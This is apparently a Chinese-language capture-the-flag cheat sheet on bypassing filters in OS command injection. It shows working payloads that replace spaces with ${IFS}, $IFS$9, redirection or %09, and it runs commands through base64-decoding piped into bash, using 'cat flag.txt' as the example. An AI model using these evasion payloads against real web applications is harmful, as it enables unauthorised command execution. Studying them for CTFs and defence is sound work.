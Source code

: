 在过滤了空格的系统中，以cat flag.txt为例，系统不允许我们输入空格或输入后被过滤。

- **`${IFS}`**
- ` $IFS$9 `(可以是别的)

> - **`$IFS`**: `$IFS` 是 "Internal Field Separator"（内部字段分隔符）的缩写。它是一个环境变量，用于定义 shell 在解释命令行参数或输入时如何分割字段（单词）。默认情况下，`$IFS` 包含空格、制表符和换行符。简单来说，它告诉 shell 如何区分不同的参数。
> - **`$9`**: `$9` 代表 shell 脚本的第九个命令行参数。如果在执行脚本时提供了九个或更多个参数，`$9` 就会包含第九个参数的值。如果没有提供第九个参数，`$9` 的值为空字符串。
>
> 现在我们来看` $IFS$9 `。它的作用是将 `$IFS` 和 `$9` 连接在一起。由于 `$9` 通常为空字符串，所以 $$IF$$`9` 实际上就等同于 `$IFS`。这个技巧的关键在于如何使用它来绕过空格过滤

可使用${IFS}代替空格。

```PHP
cat${IFS}flag.txt
cat$IFS$1flag.txt
cat${IFS}$1flag.txt
```

- **重定向符绕过(<>)**

```PHP
cat<>flag.txt
cat<flag.txt
```

- **%09(需要php环境)**

php环境下web输入%09等效于空格

```PHP
cat%09flag.txt
```

- **`%0a`****换行符**

#### 编码绕过

#### Base64

```PHP
echo xxxx|base64 -d|bash
```

使用反引号包含base64解码后的命令

```PHP
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d
```

将base64解码后的命令通过管道符传递给bash

```PHP
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash
```

#### 变量拼接

使用shell变量拼接被黑名单限制的关键词
